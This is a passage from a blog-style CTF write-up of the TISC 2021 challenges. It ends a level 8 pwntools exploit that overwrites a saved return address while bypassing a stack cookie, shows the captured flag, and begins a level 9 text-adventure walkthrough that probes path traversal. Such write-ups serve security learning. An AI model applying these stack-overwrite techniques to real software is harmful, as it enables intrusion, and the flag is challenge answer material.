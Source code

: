 ```python
            # Leverage the insecure memcpy operations to overwrite saved RIP without touching the cookie
            payload_save_cookie = p64(win_addr) + p64(base_addr+0x3606) + b"0"*92 + b"\x10\x00\x00\x00" + p64(s_addr) + p64(input_addr) + p64(cookie_addr+0x10)
            p.sendlineafter(b"Your answer: ", payload_save_cookie)
            print("!!!!!!!!")
            p.recv()
        else:
            p.close()
    else:
        p.close()
except:
    pass
```
![8 explanation 19](/assets/tisc-2021/8_19.png)

**Flag (100 points):** `TISC{30e903d64775c0120e5c244bfe8cbb0fd44a908b}`

<u>Afterthoughts:</u> I do not feel like I deserved this solve; at least, definitely not with the level of understanding I had of the program during the competition. It's horrifying that I managed to somehow craft a working payload without understanding *why* it worked. Many stars must have aligned that day or something.

<u>Update 13/1/2022:</u> I've done a writeup for the intended method [here]({% post_url 2022-01-13-2021-heap-adventure %}).

***

## 9. 1865 Text Adventure

With only about 48 hours left on the clock and having had a disastrous level 8 experience, I wasn't really expecting to get anywhere with this challenge, so I took a more laid-back approach to things.

![level 9-1 flavourtext](/assets/tisc-2021/desc_9a.png)

Connecting to the service reveals a neat little text adventure.

![9 explanation 1](/assets/tisc-2021/9_1.png)

Getting to the end of the game itself (a small, dead-end room where PALINDROME taunts you) is not particularly difficult, so I won't get into the details of that. However, in the process of doing so, Alice can pick up items in-game that give you additional abilities of sorts:

* The pocket watch (found at the start of the game) gives access to an options menu, where you can disable the text scrolling (because it's slow and annoying). You can also make the game output rainbow text, which is completely unreadable. Why would you do this?
* The looking glass (found just after the halfway mark) adds a `teleport` command, which I tested out as follows:

  ```
  [a-mystical-cove] get looking-glass
  You pick up 'looking-glass'.
  You pick up the looking glass and look through the lens. Through it you see a multitude of infinite worlds, infinite universes. Suddenly, you feel much more powerful.
  [a-mystical-cove] teleport
  You are currently at:
  sea-of-tears/along-the-rolling-waves/a-sandy-shore/a-mystical-cove
  [a-mystical-cove] teleport ../
  Cannot travel through empty rooms. Pay attention to this!
  ```

